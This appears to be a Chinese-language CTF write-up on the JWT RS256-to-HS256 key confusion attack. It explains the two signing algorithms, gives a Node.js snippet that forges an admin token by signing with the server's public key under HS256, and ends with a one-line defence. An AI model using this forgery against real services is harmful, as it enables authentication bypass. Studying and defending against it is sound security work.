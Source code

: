# 密钥混淆攻击

## 前言

JWT签名算法中，一般有两个选择，一个采用HS256,另外一个就是采用RS256。
签名实际上是一个加密的过程，生成一段标识（也是JWT的一部分）作为接收方验证信息是否被篡改的依据。

RS256 (采用SHA-256 的 RSA 签名) 是一种非对称算法, 它使用公共/私钥对: 标识提供方采用私钥生成签名, JWT 的使用方获取公钥以验证签名。由于公钥 (与私钥相比) 不需要保护, 因此大多数标识提供方使其易于使用方获取和使用 (通常通过一个元数据URL)。
另一方面, HS256 (带有 SHA-256 的 HMAC 是一种对称算法, 双方之间仅共享一个 密钥。由于使用相同的密钥生成签名和验证签名, 因此必须注意确保密钥不被泄密。

在开发应用的时候启用JWT，使用RS256更加安全，你可以控制谁能使用什么类型的密钥。另外，如果你无法控制客户端，无法做到密钥的完全保密，RS256会是个更佳的选择，JWT的使用方只需要知道公钥。

由于公钥通常可以从元数据URL节点获得，因此可以对客户端进行进行编程以自动检索公钥。如果采用这种方式，从服务器上直接下载公钥信息，可以有效的减少配置信息。

## 利用

此攻击的原因是某些库对签名/验证HMAC对称加密的密钥和包含用于验证RSA签名令牌的公钥的密钥使用相同的变量名。
通过将算法调整为HMAC变体（HS256/HS384/HS512）并使用公共可用公钥对其进行签名，我们可以欺骗服务使用机密变量中的硬编码公钥验证HMAC令牌。



## WP

由于jwt在python和nodejs的库不同，造成在这里只能自己手动生成了,之后运行nodejs获取cookie去替换即可

```javascript
router.get('/', function(req, res, next) {
  res.type('html');
  var cert = fs.readFileSync(process.cwd()+'//routes/public.key');
  var token = jwt.sign({ user: 'admin' }, cert, { algorithm: 'HS256' });

  res.cookie('auth',token);
  res.end('where is flag?');
  
});
```

## 如何防御

JWT配置应该只允许使用HMAC算法或公钥算法，决不能同时使用这两种算法


